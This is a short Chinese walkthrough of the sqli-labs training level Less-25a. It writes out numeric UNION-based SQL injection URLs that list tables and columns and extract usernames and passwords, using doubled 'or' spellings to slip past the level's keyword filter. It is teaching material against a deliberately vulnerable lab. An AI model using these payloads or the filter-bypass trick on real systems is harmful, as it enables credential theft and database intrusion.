

# Less - 25a

---

# 通关教程

---

## 1、判断闭合方式

---

​​

判断为数字型注入

---

## 2、查看数据库

---

```bash
http://192.168.225.132/sqli-labs/Less-25a/?id=0  union select 1,2,database()--+
```

​​

---

## 3、查看security库下的所有表

---

```bash
http://192.168.225.132/sqli-labs/Less-25a/?id=0  union select 1,2,(select group_concat(table_name) from infoorrmation_schema.tables where table_schema='security')--+
```

​​

---

## 4、查看users表的字段名

---

```bash
http://192.168.225.132/sqli-labs/Less-25a/?id=0  union select 1,2,(select group_concat(column_name) from infoorrmation_schema.columns where table_name='users')--+
```

​​

---

## 5、查看username,password字段的值

---

```bash
http://192.168.225.132/sqli-labs/Less-25a/?id=0 union select 1,2,(select group_concat(username,passwoorrd) from security.users)--+
```

​​
